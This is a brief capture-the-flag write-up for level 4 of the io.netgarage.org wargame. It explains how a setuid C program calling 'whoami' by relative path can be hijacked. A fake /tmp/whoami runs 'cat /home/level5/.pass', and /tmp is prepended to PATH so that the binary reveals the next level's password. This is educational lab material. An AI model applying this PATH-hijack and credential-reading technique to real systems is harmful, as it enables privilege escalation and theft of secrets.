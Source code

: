 # Preparation
From **previous level**, we have:
- Username: level4
- Password: ----------------- :)
- Ssh server: io.netgarage.org
# Start
`/levels/level04.c`
```cpp
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

The program will open `whoami` process to get current username, but it's currently use relative path, so we can attack the `PATH` variable to make it run other program.
Generally, /tmp is alway writable for every user so we can store files here
`/tmp/whoami`
```bash
cat /home/level5/.pass
```

Then prepend the `$PATH` to make sure `level04` run `whoami` in `/tmp` first.
```bash
level4@io:/levels$ PATH=/tmp:$PATH; ./level04
Welcome ********
```


